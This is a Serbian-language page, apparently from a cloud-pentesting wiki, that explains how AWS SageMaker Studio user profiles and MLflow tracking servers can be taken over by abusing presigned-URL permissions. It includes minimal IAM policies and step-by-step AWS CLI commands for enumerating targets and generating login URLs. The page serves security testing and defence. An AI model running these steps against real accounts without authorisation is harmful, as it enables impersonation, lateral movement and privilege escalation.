 # AWS - SageMaker Neovlašćeni pristup

{{#include ../../../../banners/hacktricks-training.md}}

## SageMaker Studio - Preuzimanje naloga putem CreatePresignedDomainUrl (Imitacija bilo kojeg UserProfile)

### Opis
Identitet koji ima dozvolu da pozove `sagemaker:CreatePresignedDomainUrl` na ciljnom Studio `UserProfile` može da generiše login URL koji se autentifikuje direktno u SageMaker Studio kao taj profil. To pruža napadačevom pregledaču Studio sesiju koja nasleđuje dozvole profila (`ExecutionRole`) i potpuni pristup profilu koji je smešten na EFS-u (home) i aplikacijama. Nije potrebna `iam:PassRole` niti pristup console.

### Zahtevi
- SageMaker Studio `Domain` i ciljni `UserProfile` unutar njega.
- Napadački principal treba `sagemaker:CreatePresignedDomainUrl` na ciljnom `UserProfile` (na nivou resursa) ili `*`.

Minimalan primer policy-ja (ograničen na jedan UserProfile):
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Action": "sagemaker:CreatePresignedDomainUrl",
"Resource": "arn:aws:sagemaker:<region>:<account-id>:user-profile/<domain-id>/<user-profile-name>"
}
]
}
```
### Koraci zloupotrebe

1) Enumerate Studio Domain i UserProfiles koje možete ciljati
```bash
DOM=$(aws sagemaker list-domains --query 'Domains[0].DomainId' --output text)
aws sagemaker list-user-profiles --domain-id-equals $DOM
TARGET_USER=<UserProfileName>
```
2) Generišite presigned URL (važi ~5 minuta podrazumevano)
```bash
aws sagemaker create-presigned-domain-url \
--domain-id $DOM \
--user-profile-name $TARGET_USER \
--query AuthorizedUrl --output text
```
3) Otvorite vraćeni URL u pregledaču da biste se prijavili u Studio kao ciljani korisnik. U Jupyter terminalu unutar Studio proverite efektivni identitet:
```bash
aws sts get-caller-identity
```
Napomene:
- `--landing-uri` može biti izostavljen. Neke vrednosti (npr. `app:JupyterLab:/lab`) mogu biti odbijene u zavisnosti od varijante/verzije Studio-a; podrazumevana podešavanja obično preusmeravaju na početnu stranu Studio-a, a potom na Jupyter.
- Organizacione politike/ograničenja VPC endpointa i dalje mogu blokirati mrežni pristup; izdavanje tokena ne zahteva prijavu u konzolu ili `iam:PassRole`.

### Uticaj
- Bočno kretanje i eskalacija privilegija preuzimanjem bilo kog Studio `UserProfile` čiji ARN je dozvoljen, nasleđujući njegov `ExecutionRole` i datotečni sistem/aplikacije.

### Dokazi (iz kontrolisanog testa)
- Sa samo `sagemaker:CreatePresignedDomainUrl` na ciljnom `UserProfile`, uloga napadača je uspešno vratila `AuthorizedUrl` poput:
```
https://studio-d-xxxxxxxxxxxx.studio.<region>.sagemaker.aws/auth?token=eyJhbGciOi...
```
- Direktan HTTP zahtev vraća preusmerenje (HTTP 302) na Studio, potvrđujući da je URL važeći i aktivan do isteka.

## SageMaker MLflow Tracking Server - ATO putem CreatePresignedMlflowTrackingServerUrl

### Opis
Identitet sa dozvolom da pozove `sagemaker:CreatePresignedMlflowTrackingServerUrl` za ciljanu SageMaker MLflow Tracking Server može kreirati jednokratni presigned URL koji se direktno autentifikuje u managed MLflow UI za taj server. Ovo daje isti nivo pristupa koji bi legitimni korisnik imao serveru (pregled/kreiranje eksperimenata i pokretanja (runs), i preuzimanje/postavljanje artefakata u S3 skladištu artefakata servera) bez pristupa konzoli ili `iam:PassRole`.

### Zahtevi
- SageMaker MLflow Tracking Server u nalogu/regiji i njegovo ime.
- Napadački principal mora imati `sagemaker:CreatePresignedMlflowTrackingServerUrl` na ciljnom MLflow Tracking Server resursu (ili `*`).

Minimalan primer politike (ograničen na jedan Tracking Server):
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Action": "sagemaker:CreatePresignedMlflowTrackingServerUrl",
"Resource": "arn:aws:sagemaker:<region>:<account-id>:mlflow-tracking-server/<tracking-server-name>"
}
]
}
```
### Koraci zloupotrebe

1) Enumerate MLflow Tracking Servers koje možete ciljati i izaberite jedno ime
```bash
aws sagemaker list-mlflow-tracking-servers \
--query 'TrackingServerSummaries[].{Name:TrackingServerName,Status:TrackingServerStatus}'
TS_NAME=<tracking-server-name>
```
2) Generiši presigned MLflow UI URL (važi kratko vreme)
```bash
aws sagemaker create-presigned-mlflow-tracking-server-url \
--tracking-server-name "$TS_NAME" \
--expires-in-seconds 300 \
--session-expiration-duration-in-seconds 1800 \
--query AuthorizedUrl --output text
```
3) Otvorite vraćeni URL u pregledaču da pristupite MLflow UI kao autentifikovani korisnik za taj Tracking Server.

Napomene:
- Tracking Server mora biti u stanju spremnosti (npr., `Created/Active`). Ako je još uvek `Creating`, poziv će biti odbijen.
- The presigned URL is single‑use and short‑lived; generate a new one when needed.

### Uticaj
- Direktan pristup upravljanom MLflow UI za ciljani Tracking Server, što omogućava pregled i izmenu experiments/runs i preuzimanje ili otpremanje artifacts uskladištenih u S3 artifact store konfigurisanom za server, u okviru dozvola koje nameće konfiguracija servera.

{{#include ../../../../banners/hacktricks-training.md}}
